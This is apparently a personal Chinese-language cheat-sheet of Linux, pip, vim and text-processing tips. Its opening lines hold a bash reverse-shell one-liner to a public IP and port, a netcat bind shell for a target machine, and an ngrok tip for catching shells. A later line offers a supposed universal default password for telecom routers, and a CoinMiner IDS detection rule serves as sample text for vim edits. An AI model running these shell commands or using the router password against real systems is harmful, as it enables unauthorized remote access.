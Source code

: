 ### kali重新启动网卡

/etc/init.d/networking restart





bash -i >/dev/tcp/119.28.130.53/2333 0>&1 2>&1



正向反弹   靶机 ：nc -lvp 2333 -e /bin/bash   
  
攻击机： # nc 192.168.255.147（靶机ip）  2333



设置好ngrok，弹shell到ngrok的公网服务器ip端口上，本地监听ngrok的127.0.0.1的地址加ngrok的本地转发端口


### pip检查哪些包需要更新

	# pip list --outdated

### pip升级包

	# pip install --upgrade 要升级的包名


echo  中转义  用 ^ 相当于 正则中\

echo  ^%  输入  %

### apt 安装指定版本软件解决依赖问题

apt-get install zlib1g=1:1.2.3.4.dfsg-3ubuntu4



### 在当前目录下递归遍历各子文件夹的文件寻找含有 abc 字符串的文件信息

grep -r abc .


### 文件相关

查看文件/文件夹大小

du -sh *

或

ls -l -h

或

ls -lht

### kali linux 调整 sda1 大小 

用GPart 


linux pwd命令 查看路径，查看当期路径在系统路径位置

### CentOS7用yum安装软件提示 cannot find a valid baseurl for repobase7x86_64

可能是未配置dns:

	cd /etc/sysconfig/network-scripts

	vi ifcfg-enp4s0   

(不同的机器网卡名可能会不一样)

设置：

	DNS1=114.114.114.114

执行：

	yum update

### windows环境下python3安装Crypto

https://blog.csdn.net/five3/article/details/86160683

https://forum.90sec.org/   90sec 论坛


nE7jA%5m 就是这个密码 只要是电信设备路由器都可以试试，百试百灵



https://www.acgbk2.com/  acg宝库永久 https://acgbk.vip/



https://zxso.net/tool/shorturl.php   免注册短网址生成



http://ip.bczs.net/country/CN   全球ip 数据库



https://www.0xnull.org/   0xnull,  技术网站

### 反编译 linux 里的 ELF 文件

objdump -S a > a.S

### Github push代码到仓库，卡在WriteObjects不动

一般是有大文件

git config --global http.postBuffer 524288000



### 删除空文件夹

 	find -type d -empty|xargs -n 1 rm -rf

### 当前文件夹名字输出到文件

	ls > ../cve.txt


### vim 分割替换文本

	alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"TROJAN CoinMiner Known Malicious Stratum Authline (2017-09-20 9)"; flow:established,to_server; content:"|22|id|22 3A|"; content:"|22|method|22 3a|"; pcre:"/(?:\x22mining\.authorize\x22\x2c|\x22login\x22\x2c)/R"; content:"|22|params|22|"; within:50; pcre:"/(?:\x22login\x22\x3a\x22dashcain@protonmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22moringott26@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x2247k5TbgFezTDNtJomYPgaDdk3dyQrHZvwYcnDSV6SnGCHGDP5UWMVFXFDBg25ekR5uTWjiETwQUukbQmmwDqAZ3A3aF4osR\x22\x2c\x22pass\x22\x3a\x2232\x22|\x22login\x22\x3a\x22alisher2606@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22super\.kapu2015@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22Sanya1995ua@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x224BrL51JCc9NGQ71kWhnYoDRffsDZy7m1HUU7MRU4nUMXAHNFBEJhkTZV9HdaL4gfuNBxLPc3BeMkLGaPbF5vWtANQnM2XjL7BeJ3umLDEe+w420\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x2246s3552pauRKEovP5KuYrZLCCrxsVDHoscYbSAYaqhDyVneL7AgEhpeG3ionKZy3cHQA3RWHvVr3g3fbsLrN3T3mHbWPkNg+MoyuFirst\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x224JUdGzvrMFDWrUUwY3toJATSeNwjn54LkCnKBPRzDuhzi5vSepHfUckJNxRL2gjkNrSqtCoRUrEDAgRwsQvVCjZbS46fdUWD3ty8j16LNa\.103-208-220-133\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22butcherzz1337@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22)/R"; metadata: former_category MALWARE; reference:url,research.zscaler.com/2013/12/bitcoin-mining-operation-seen-across.html; reference:url,www.btcguild.com/new_protocol.php; reference:url,mining.bitcoin.cz/stratum-mining; reference:md5,b7759d56b5173157705bbb424bf27d71; classtype:trojan-activity; sid:2828019; rev:1; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_09_20, malware_family CoinMiner, performance_impact Moderate, updated_at 2017_09_20;)

操作如下：

1. 将要提取的正则前的字符替换为空 ```.*pcre:"/(?```  ,  /g  表示全局

	:%s/.*pcre:"\/(?://g     

2. 将要提取的正则后的字符替换为空 ```)\/R";.*```

	:%s/)\/R";.*//g

3. 将 ```|``` 替换为 ```\r```

	:%s/|/\r/g

### shell文本字符串替换(方式二)

	sed -i 's/.*rules://g' a.txt

### linux 文本取差集

	sort a.txt b.txt b.txt | uniq -u

https://blog.csdn.net/yuanyuan95/article/details/88349289

(回车换行等符号会产生影响，可提前去除)

### 一个文本文件内有重复行，把多余的删掉，另存

linux的uniq是多么的四两拨千斤：

uniq 1.txt result.txt

两个文件：2是1的子集，求交集1-2=？。

cat轻松搞定：

cat 2.txt 1.txt | sort | uniq -u > result.txt

grep也可以，就是得带几个参数，多操了些心：

grep -F -v -f 2.txt 1.txt | sort | uniq > result.txt

2.txt 1.txt的顺序很重要。


### 16进制展示文件内容

linux下用 ```xxd 文件名```

## 去除文件中的空行

	grep -v "^$" a.txt
